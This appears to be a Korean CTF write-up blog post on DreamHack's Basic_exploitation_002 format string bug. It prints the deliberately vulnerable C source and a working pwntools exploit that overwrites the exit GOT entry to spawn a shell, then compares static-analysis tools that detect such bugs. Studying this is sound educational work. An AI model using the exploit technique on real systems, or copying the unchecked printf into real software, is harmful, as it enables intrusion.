 ```yaml
---
layout: post
title: (DreamHack) Basic_exploitation_002
date: 2021-03-05 05:24:00
tags: Security CTF
---
```


## 풀이
Basic_exploitation_002는 FSB (Format String Bug)에 관한 문제이다.

FSB는 printf, sprintf 등 서식 문자를 사용하는 함수에서 매개변수를 검증하지 않아 발생하는 보안약점이며, 이를 통해 메모리 내용을 볼 수도 있다.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

위 코드에서는 printf함수에 buf만이 들어왔기 때문에 취약하다고 볼 수 있다.\
먼저 buf 변수를 통해 메모리 내용을 확인하고, exit() 함수에 get_shell()함수 주소를 덮어 씌움으로써 쉘을 실행시키도록 한다.

![image](https://user-images.githubusercontent.com/24788751/110103059-d4bd6a00-7de8-11eb-8f9b-229b895ef366.png)
FSB를 익스플로잇하여 첫번째 서식 문자부터 'AAAA'를 참조하는 것을 알 수 있다.

![image](https://user-images.githubusercontent.com/24788751/110103358-34b41080-7de9-11eb-9bfe-cd3937fb5988.png)
디스어셈블러를 통해 get_shell()의 주소가 0x8048609임을 알아냈다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 12773)
elf = ELF("./basic_exploitation_002")

exit = elf.got['exit']
get_shell = 0x8048609

payload = p32(exit)
payload += p32(exit + 2)
payload += "%34305d"
payload += "%1$n"
payload += "%33275d"
payload += "%2$n"

p.send(payload)
p.interactive()
```

## FSB 탐지
디스어셈블러와 디버거가 아닌 자동화된 보안약점 분석 도구에서는 어떻게 FSB를 탐지하는지 알아본다. 먼저 FSB는 printf, sprintf 등의 취약한 함수를 사용할 경우 발생할 가능성이 높아지므로 printf_s, sprintf_s 등의 함수를 사용하여야 한다.

### 취약한 함수 이름 검색
**Flawfinder**, **Cppcheck**과 같은 보안약점 분석기는 위에서 말한 printf와 같은 취약한 함수들을 단순히 검색하여 해당 프로그램이 취약한 지 분석한다.

### 오염 분석, 데이터 흐름 분석 (Taint analysis, data flow analysis)
**Clang Static Analyzer**는 오염 분석, 데이터 흐름 분석 등의 분석 기법을 이용하여 메모리 값이 변하는지 직접 확인함으로써 보안약점을 탐지한다.
![image](https://user-images.githubusercontent.com/24788751/110103433-4c8b9480-7de9-11eb-8034-817d34e59780.png)

### 두 방식의 장단점
단순히 취약한 함수 이름을 검색한다고 해서 취약하다고 탐지된 프로그램이 실제로 취약한 프로그램인지 확실하지 않을 수 있다. (false positive)\
반면 단순 스트링 매칭 방식이기 때문에 빠른 시간 내에 프로그램을 분석할 수 있는 장점이 있다.

오염 분석, 데이터 흐름 분석은 프로그램을 실제로 실행하면서 취약점의 존재 유무를 판단하기 때문에 더 정확하다. 그러나 프로그램을 실행하면서 분석하기 때문에 분석 시간이 오래 걸린다는 단점이 있다.